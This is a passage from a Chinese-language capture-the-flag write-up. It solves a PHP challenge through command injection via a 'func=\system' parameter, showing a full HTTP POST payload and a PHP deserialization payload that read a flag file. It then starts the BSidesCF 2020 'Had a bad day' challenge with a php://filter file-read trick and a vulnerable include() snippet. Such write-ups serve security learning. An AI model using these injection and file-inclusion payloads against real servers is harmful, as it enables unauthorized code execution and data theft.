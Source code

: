 我们直接进行RCE了，但是flag没找到，构造

```
func=\system&p=find / -name flag*
```

寻找所有文件名带flag的文件

![image-20240203213605801](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240203213605801.png)

```
func=\system&p=cat /tmp/flagoefiu4r93
```

最终payload

```http
POST /index.php HTTP/1.1
Host: 9a058e9d-b9a1-49d5-878c-3b099db1d9cb.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://9a058e9d-b9a1-49d5-878c-3b099db1d9cb.node5.buuoj.cn:81
Connection: close
Referer: http://9a058e9d-b9a1-49d5-878c-3b099db1d9cb.node5.buuoj.cn:81/index.php
Upgrade-Insecure-Requests: 1

func=\system&p=cat /tmp/flagoefiu4r93
```

另一种方法（看别人的解法）

构造反序列化字符串进行执行（有test类）

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:7:"\system";}
```

## [BSidesCF 2020]Had a bad day

![image-20240216211203666](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240216211203666.png)

根据报错发现会自己在后面加上`.php`，利用伪协议读取index.php

```
php://filter/read=convert.base64-encode/resource=index
```

得到源码

```php
<?php
	$file = $_GET['category'];

if(isset($file))
{
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
```
